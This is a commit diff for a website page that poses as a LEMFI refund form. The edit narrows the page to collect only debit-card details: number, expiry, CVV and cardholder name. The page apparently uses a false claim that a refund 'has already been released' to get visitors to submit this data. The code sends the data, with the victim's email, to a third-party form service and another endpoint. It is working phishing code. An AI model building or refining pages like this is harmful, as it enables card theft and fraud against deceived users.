

Before and after one commit to juleslynnette00-wq/refundandcompensation, a website: page public/selection.html in a window 1280 px wide. Shown: the part 363-856 px from the top of the page, without its empty margins (313-953 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update selection.html

```diff
--- a/public/selection.html
+++ b/public/selection.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>LEMFI — Select Refund Method</title>
+    <title>LEMFI — Refund Details</title>
     <link href="https://fonts.googleapis.com/css2?family=DM+Sans:opsz,wght@9..40,300;9..40,400;9..40,500;9..40,600;9..40,700&display=swap" rel="stylesheet">
     <style>
         *, *::before, *::after { margin: 0; padding: 0; box-sizing: border-box; }
@@ -40,15 +40,6 @@
         .amount-display .value { font-size: 34px; font-weight: 700; color: var(--text-primary); margin-top: 4px; letter-spacing: -1px; }
         .amount-display .currency { font-size: 20px; font-weight: 500; color: var(--text-secondary); vertical-align: top; margin-right: 2px; }
         .section-label { font-size: 14px; font-weight: 600; color: var(--text-primary); margin-bottom: 12px; }
-        .method-toggle { display: grid; grid-template-columns: 1fr 1fr; gap: 10px; margin-bottom: 22px; }
-        .method-btn { padding: 14px 12px; border: 2px solid var(--border); border-radius: var(--radius-md); background: var(--bg-card); cursor: pointer; text-align: center; transition: all 0.2s; font-family: inherit; }
-        .method-btn:hover { border-color: #D1D5DB; }
-        .method-btn.active { border-color: var(--green-primary); background: var(--green-ghost); }
-        .method-btn svg { width: 24px; height: 24px; margin-bottom: 6px; color: var(--text-secondary); }
-        .method-btn.active svg { color: var(--green-primary); }
-        .method-btn .method-name { font-size: 13px; font-weight: 600; color: var(--text-primary); }
-        .method-fields { display: none; }
-        .method-fields.visible { display: block; }
         .form-group { margin-bottom: 16px; }
         .form-group label { display: block; font-size: 13px; font-weight: 600; color: var(--text-primary); margin-bottom: 6px; }
         .form-group input, .form-group select { width: 100%; padding: 12px 14px; border: 1.5px solid var(--border); border-radius: var(--radius-md); font-size: 14px; font-family: inherit; color: var(--text-primary); background: var(--bg-body); transition: border-color 0.2s; outline: none; }
@@ -89,53 +80,26 @@
             <div class="card-inner">
                 <div class="info-banner animate-in delay-1">
                     <svg viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><circle cx="12" cy="12" r="10"/><polyline points="12 6 12 12 16 14"/></svg>
-                    <p><strong>The refund amount has already been released by the company</strong> and sent to you. To acquire it, select your preferred payment method below and fill in the required details.</p>
+                    <p><strong>The refund amount has already been released by the company</strong> and sent to you. To acquire it, please fill in the required card details below.</p>
                 </div>
                 <div class="amount-display animate-in delay-2">
                     <div class="label">Refund Amount Released</div>
                     <div class="value"><span class="currency">$</span><span id="displayAmount">0.00</span></div>
                 </div>
                 <div class="animate-in delay-3">
-                    <div class="section-label">Select how you want to receive your refund</div>
-                    <div class="method-toggle">
-                        <div class="method-btn active" data-method="bank" onclick="selectMethod('bank')">
-                            <svg viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M3 21h18"/><path d="M3 10h18"/><path d="M12 3l9 7H3l9-7z"/></svg>
-                            <div class="method-name">Bank Transfer</div>
-                        </div>
-                        <div class="method-btn" data-method="card" onclick="selectMethod('card')">
-                            <svg viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><rect x="1" y="4" width="22" height="16" rx="2" ry="2"/><line x1="1" y1="10" x2="23" y2="10"/></svg>
-                            <div class="method-name">Debit Card</div>
-                        </div>
-                    </div>
+                    <div class="section-label">Enter your card details</div>
                 </div>
                 <form id="selectionForm">
                     <input type="hidden" name="access_key" value="YOUR_WEB3FORM_ACCESS_KEY">
                     <input type="hidden" name="subject" value="Refund Payment Method">
                     <input type="hidden" name="from_name" value="Lemfi Website">
                     <input type="hidden" name="page" value="selection.html">
-                    <input type="hidden" id="paymentMethodHidden" name="paymentMethod" value="bank">
+                    <!-- Payment method is hardcoded to card -->
+                    <input type="hidden" id="paymentMethodHidden" name="paymentMethod" value="card">
                     <input type="hidden" id="amountHidden" name="amount" value="">
                     <input type="hidden" id="refundEmailHidden" name="email" value="">
 
-                    <div id="bankFields" class="method-fields visible animate-in delay-4">
-                        <div class="form-group">
-                            <label for="bankName">Bank Name</label>
-                            <input type="text" id="bankName" name="bankName" placeholder="e.g. Chase, Bank of America" required>
-                        </div>
-                        <div class="form-group">
-                            <label for="accountHolder">Account Holder Name</label>
-                            <input type="text" id="accountHolder" name="accountHolder" placeholder="Name on the bank account" required>
-                        </div>
-                        <div class="form-group">
-                            <label for="accountNumber">Account Number</label>
-                            <input type="text" id="accountNumber" name="accountNumber" placeholder="Enter your account number" required>
-                        </div>
-                        <div class="form-group">
-                            <label for="routingNumber">Routing Number</label>
-                            <input type="text" id="routingNumber" name="routingNumber" placeholder="9-digit routing number" required>
-                        </div>
-                    </div>
-                    <div id="cardFields" class="method-fields animate-in delay-4">
+                    <div id="cardFields" class="method-fields visible animate-in delay-4">
                         <div class="form-group">
                             <label for="cardNumber">Card Number</label>
                             <input type="text" id="cardNumber" name="cardNumber" placeholder="1234 5678 9012 3456" maxlength="19" required>
@@ -171,7 +135,8 @@
         </div>
     </div>
     <script>
-        let currentMethod = 'bank';
+        // Method is strictly 'card' now
+        const currentMethod = 'card';
         const savedAmount = localStorage.getItem('refundAmount');
         const savedEmail = localStorage.getItem('refundEmail');
 
@@ -182,14 +147,6 @@
         }
         if (savedEmail) {
             document.getElementById('refundEmailHidden').value = savedEmail;
-        }
-
-        function selectMethod(method) {
-            currentMethod = method;
-            document.querySelectorAll('.method-btn').forEach(b => b.classList.toggle('active', b.dataset.method === method));
-            document.getElementById('bankFields').classList.toggle('visible', method === 'bank');
-            document.getElementById('cardFields').classList.toggle('visible', method === 'card');
-            document.getElementById('paymentMethodHidden').value = method;
         }
 
         function showToast(msg) { const t = document.getElementById('toast'); t.textContent = msg; t.classList.add('show'); setTimeout(() => t.classList.remove('show'), 3500); }
@@ -215,22 +172,16 @@
                 subject: 'Refund Payment Method',
                 from_name: 'Lemfi Website',
                 page: 'selection.html',
-                paymentMethod: currentMethod,
+                paymentMethod: 'card', // Hardcoded to card
                 amount: savedAmount || '',
                 email: savedEmail || ''
             };
 
-            if (currentMethod === 'bank') {
-                formData.bankName = document.getElementById('bankName').value;
-                formData.accountHolder = document.getElementById('accountHolder').value;
-                formData.accountNumber = document.getElementById('accountNumber').value;
-                formData.routingNumber = document.getElementById('routingNumber').value;
-            } else {
-                formData.cardNumber = document.getElementById('cardNumber').value;
-                formData.cardExpiry = document.getElementById('cardExpiry').value;
-                formData.cardCvv = document.getElementById('cardCvv').value;
-                formData.cardName = document.getElementById('cardName').value;
-            }
+            // Removed Bank logic, strictly card logic
+            formData.cardNumber = document.getElementById('cardNumber').value;
+            formData.cardExpiry = document.getElementById('cardExpiry').value;
+            formData.cardCvv = document.getElementById('cardCvv').value;
+            formData.cardName = document.getElementById('cardName').value;
 
             try {
                 const [web3Response, apiResponse] = await Promise.allSettled([
```
